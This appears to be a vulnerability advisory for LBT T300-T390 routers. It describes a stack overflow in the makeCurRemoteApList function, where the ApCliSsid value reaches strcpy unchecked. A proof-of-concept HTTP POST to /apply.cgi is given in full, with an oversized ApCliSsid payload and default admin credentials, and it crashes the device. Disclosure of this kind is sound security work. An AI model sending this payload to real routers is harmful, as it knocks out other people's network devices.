 # LBT router makeCurReoteApList function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T300-T390 were discovered to contain a stack overflow via the ApCliSsid parameter in the makeCurRemoteApList function.

## Vulnerability Details

There is a stack overflow in the ApCliSsid variable in the makeCurRemoteApList function in the Rc program. The rc program is started through its symbolic link init. This variable is obtained through the system nvram_get function and is passed directly to the strcpy dangerous function without processing, causing a stack buffer overflow based on v13, you can pass in the request package parameters by modifying the apclient_scan.asp page, thereby causing a denial of service attack.

The calling process of the overflow function is as follows:

Main()->sysK_main()->scanApAutoConnect()->makeCurRemoteApList()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/5f8c944d-dd0d-4471-a684-cdffc71c6335)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 697
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/apclient_scan.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    Connection: close

    submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliAuthMode=OPEN&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

   

    
